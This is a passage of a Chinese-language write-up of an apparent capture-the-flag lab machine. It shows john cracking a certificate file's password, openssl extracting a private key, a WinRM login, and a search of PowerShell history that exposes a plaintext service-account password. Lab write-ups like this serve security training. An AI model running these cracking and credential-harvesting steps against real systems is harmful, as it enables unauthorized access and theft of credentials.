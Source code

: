 ```bash
1g 0:00:01:21 DONE (2022-04-20 03:16) 0.01228g/s 39699p/s 39699c/s 39699C/s thuglife06..thugishxochitl@yahoo.com
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

注意在得到`legacyy_dev_auth.pfx.hash`文件后，需要对文件进行修改，因为将`b$`这样的修改为`$`，原因是在输出的时候还是使用的btye格式。

最后`john`破解的密码为`thuglegacy`。

有了pfx文件的密码，就可以得到私钥和公钥了。 `cmder -p db/pentesting/3_cryptography/1_certificates.xd`

```bash
root@145a5d706052 /t/b/workspace# cmder use -r 2
[✓] Executing: openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -nodes -out prv.key
Enter Import Password:
root@145a5d706052 /t/b/workspace# cmder use -r 3
[✓] Executing: openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
Enter Import Password:
root@145a5d706052 /t/b/workspace# ll
total 36K
-rw-r--r-- 1 root root 2.6K Apr 20 02:31 10.10.11.152-Shares_Dev_winrm_backup.zip
-rw-r--r-- 1 root root 5.0K Apr 20 02:37 10.10.11.152-Shares_Dev_winrm_backup.zip.hash
-rw------- 1 root root 1.3K Apr 20 03:21 cert.crt
-rwxr-xr-x 1 root root 2.5K Oct 25 14:21 legacyy_dev_auth.pfx
-rw-r--r-- 1 root root 5.0K Apr 20 03:14 legacyy_dev_auth.pfx.hash
-rw-r--r-- 1 root root 3.7K Apr 20 02:15 nmap_start
-rw------- 1 root root 2.0K Apr 20 03:21 prv.key
```

有了公钥和私钥，就可以想办法进行登录了。注意到开启了端口`5986 WinRM`服务，可以PowerShell登录。

`cmder -p db/pentesting/1_enumeration/5985_5986_WinRM.xd`

填写公钥和私钥后，成功登录

![](2.png)


## 获取管理员权限

- [](!域渗透清单)

这里我首次检查history就发现的问题

```bash
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\legacyy\Desktop> type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
